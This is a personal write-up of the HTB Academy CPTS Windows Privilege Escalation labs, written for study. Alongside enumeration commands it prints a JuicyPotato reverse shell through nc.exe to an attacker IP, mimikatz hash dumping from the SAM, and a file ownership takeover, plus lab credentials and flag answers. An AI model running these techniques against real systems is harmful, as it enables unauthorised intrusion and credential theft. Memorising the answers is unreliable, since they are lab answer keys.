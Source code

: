 ```yaml
---
title: CPTS labs - 25 Windows Privilege Escalation
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 25 Windows Privilege Escalation

## Getting the Lay of the Land

**RDP to (ACADEMY-WINLPE-SRV01) with user "htb-student" and password "HTB_@cademy_stdnt!". What is the IP address of the other NIC attached to the target host?**

``` powershell
ipconfig /all
```

Results: 172.16.20.45

**What executable other than cmd.exe is blocked by AppLocker?**

We list the AppLocker Rules:

``` powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Results: powershell_ise.exe


**What non-default privilege does the htb-student user have?**

```powershell
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

Results: SeTakeOwnershipPrivilege

**Who is a member of the Backup Operators group?**

```powershell
net localgroup "Backup Operators"
```

Results: sarah


**What service is listening on port 8080 (service name not the executable)?**

```powershell
tasklist /svc
```

Results: Tomcat8


**What user is logged in to the target host?**

```powershell
query user
```

Results:  sccm_svc


**What type of session does this user have?**

```powershell
query user
```

Results:  console


**What service is listening on 0.0.0.0:21? (two words)**

```
tasklist /svc
```

Results: FileZilla Server

**Which account has WRITE_DAC privileges over the \pipe\SQLLocal\SQLEXPRESS01 named pipe?**

```
.\accesschk.exe -accepteula -w \pipe\SQLLocal\SQLEXPRESS01 -v
```

Results: NT SERVICE\MSSQL$SQLEXPRESS01


## Windows User Privileges

Authenticate to  with user "sql_dev" and password "Str0ng_P@ssw0rd!". Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt

```
# As I was not able to RDP using the sql_dev account. I connected with htb-student and ran cmd as sql_dev.
xfreerdp /v:10.129.43.43 /u:sql_dev /p:'Str0ng_P@ssw0rd!' /cert:ignore

# Another alternative:
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
# Enter password: Str0ng_P@ssw0rd

# Enabling xp_cmdshell
enable_xp_cmdshell

# Checking Account Privileges
xp_cmdshell whoami /priv
```

As SeImpersonatePrivilege is listed, we may impersonate a privileged account such as NT AUTHORITY\SYSTEM.

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. But this is already saved in the C:\Tools folder. So we will jump to the next step, start a Netcat listener on port 8443 from your attacking machine:

```
nc -lnvp 8443
```

Execute the command below where -l is the COM server listening port, -p is the program to launch (cmd.exe), -a is the argument passed to cmd.exe, and -t is the createprocess call. Below, we are telling the tool to try both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively.

```
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.49 8443 -e cmd.exe" -t *
```

Cat the flag:

```
type c:\Users\Administrator\Desktop\SeImpersonate\flag.txt
```

Results: F3ar_th3_p0tato!

**RDP to  with user "jordan" and password "HTB_@cademy_j0rdan!". Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm_svc account.**

```
xfreerdp /v:10.129.43.43 /u:jordan /p:HTB_@cademy_j0rdan! /cert:ignore

. .\psgetsys.ps1 
ImpersonateFromParentPid -ppid 612 -command "c:\Windows\System32\cmd.exe" -cmdargs ""

# Now we open mimikatz (in tools)
cd c:\Tools\mimikatz
# And browse to the tool
.\mimikatz.exe

# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machine
lsadump::sam
```

Results: 64f12cddaa88057e06a81b54e73b949b


**RDP to (ACADEMY-WINLPE-SRV01) with user "htb-student" and password "HTB_@cademy_stdnt!". Leverage SeTakeOwnershipPrivilege rights over the file located at "C:\TakeOwn\flag.txt" and submit the contents.**

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.43.43 /cert:ignore  
# Check permissions
whoami /priv

# In the output we can see SeTakeOwnershipPrivilege is disabled. We will use the Enable-Privilege.ps1 and the EnableAllTokenPrivs.ps1 scripts to enable it.

```

See the scripts  in [windows-user-privileges](windows-user-privileges.md)

```
# Run the scripts to enable the SeTakeOwnershipPrivilege
Import-module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```

And now it is enabled.

```
# Check out the target file to gather a bit more information about it.
Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

# Checking File Ownership:
cmd /c dir /q 'C:\TakeOwn\'

# Taking Ownership of the File:
takeown /f 'C:\TakeOwn\flag.txt'

# Confirm change of ownership:
Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

# We need to modify ACL to get to read the file.
icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F

# Print out the file
type 'C:\TakeOwn\flag.txt'
```

Results: 1m_th3_f1l3_0wn3r_n0W!


### Windows Group Privileges

